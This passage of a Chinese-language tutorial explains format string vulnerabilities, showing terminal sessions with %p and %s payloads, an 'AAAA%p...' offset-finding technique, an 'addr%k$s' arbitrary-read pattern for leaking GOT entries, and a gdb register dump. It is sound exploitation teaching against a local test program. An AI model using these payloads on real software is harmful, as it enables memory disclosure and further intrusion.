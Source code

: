 可以看出，第二次printf时，将0x8007325 处视为字符串变量并进行了打印。

**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。**

```
yutao@ubuntu:~/Desktop$ ./a.out 
%4$s            
00000001.00222222.ffffffff.%4$s
Segmentation fault (core dumped)
```

小技巧总结：

> 1. 利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
> 2. 利用 %s 来获取变量所对应地址的内容，只不过有零截断。
> 3. 利用 %order$x 来获取指定参数的值，利用 %order$s 来获取指定参数对应地址的内容。



## 泄露任意地址内存

我们想要泄露某一个 libc 函数的 got 表内容，从而得到其地址，进而获取 libc 版本以及其他函数的地址，能不能这样做呢？当然可以。

假设我们知道格式化字符串在输出调用时是第几个参数，这里假设该格式化字符串相对函数调用为第k个参数，可以用如下的方式来获取某个指定地址addr的内容。

```
addr%k$s
```

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

```
[tag]%p%p%p%p%p%p...
```

一般来说，我们会重复某个字符的机器字长来作为 tag，后面会跟上若干个 %p 来输出栈上的内容，如果内容与我们前面的 tag 重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符，同时还是利用之前编译好的程序，如下

```c
yutao@ubuntu:~/Desktop$ ./a.out 
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.00222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xff96a4500xf7f1f9900x80491d10x414141410x702570250x702570250x702570250x702570
```

由 0x41414141 处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第 5 个参数，是格式化字符串的第 4 个参数。我们可以来测试一下:

```
yutao@ubuntu:~/Desktop$ ./a.out 
%4$s
00000001.00222222.ffffffff.%4$s
Segmentation fault (core dumped)
```

程序崩了，这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，所以程序就崩溃了。

```
gdb-peda$ r
Starting program: /home/yutao/Desktop/a.out 
%4$s
[----------------------------------registers-----------------------------------]
EAX: 0x804a00b ("%08x.%08x.%08x.%s\n")
EBX: 0x804c000 --> 0x804bf14 --> 0x1 
ECX: 0x0 
EDX: 0xf7fb3000 --> 0x1e6d6c 
ESI: 0xf7fb3000 --> 0x1e6d6c 
EDI: 0xf7fb3000 --> 0x1e6d6c 
EBP: 0xffffd1d8 --> 0x0 
ESP: 0xffffd13c --> 0x804921e (<main+104>:	add    esp,0x20)
EIP: 0xf7e1fde0 (<printf>:	endbr32)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e1fddb <fprintf+27>:	add    esp,0x1c
```